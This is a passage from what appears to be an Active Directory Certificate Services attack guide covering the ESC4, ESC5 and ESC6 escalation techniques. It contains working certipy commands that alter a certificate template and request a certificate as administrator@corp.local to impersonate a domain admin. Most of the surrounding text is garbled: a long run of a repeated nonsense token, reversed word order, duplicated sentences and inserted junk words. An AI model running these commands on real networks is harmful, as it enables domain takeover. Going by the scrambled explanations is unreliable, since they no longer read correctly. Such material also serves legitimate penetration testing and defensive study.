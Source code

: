 vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla' vItlhutlhla
```bash
# Make template vuln to ESC1
certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -save-old

# Exploit ESC1
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC4-Test -upn administrator@corp.local

# Restore config
certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -configuration ESC4-Test.json
```
## Vulnerable PKI Object Access Control - ESC5

### Explanation

**QaStaHvIS** AD CS system vItlhutlh **security** impact **objects** certificate templates **certificate authority** beyond **relationships** ACL-based **interconnected** web of **extensive** The. **objects** security **affect** significantly can which, **system** CS AD the of **security** the impact can objects these encompass:

* **server** CA object computer AD The, **mechanisms** S4U2Self or S4U2Proxy like through compromised be may server CA the of.
* **server** CA DCOM/RPC The.
* **container** specific the within **object** AD descendant any or **object** AD. `CN=<DOMAIN>,DC=<COM>`, `CN=Configuration,CN=Services,CN=Public Key Services` path container, Templates Certificate the as such objects and containers, limited not is path This.

**components** critical these of control gain to manages attacker low-privileged a if compromised be can system PKI the.

## EDITF\_ATTRIBUTESUBJECTALTNAME2 - ESC6

### Explanation

**Microsoft** by outlined as **implications** flag's **`EDITF_ATTRIBUTESUBJECTALTNAME2`** the on touches also post Academy CQure **subject** the in discussed **configuration** This. (CA) Authority Certification a on activated when, **request** any in **values user-defined** the **inclusion** permits that, **CA** Certification a on activated when **configuration** This. **Directory® Active** from constructed those including, **request** **alternative name** **subject** the in **values user-defined** the **inclusion** permits that, **CA** Certification a on activated when **configuration** This. **enrollment** user **unprivileged** to open those specifically—authentication domain for **template** any through **enroll** to **intruder** an allows Consequently. **template** User standard the like, enrollment user **unprivileged** to open those specifically—authentication domain for **template** any through **enroll** to **intruder** an allows Consequently. **domain** the within **entity** active other **any** or **administrator** domain a as authenticate to **intruder** the enabling, **certificate** a secured be can. **domain** the within **entity** active other **any** or **administrator** domain a as authenticate to **intruder** the enabling, **certificate** a secured be can.

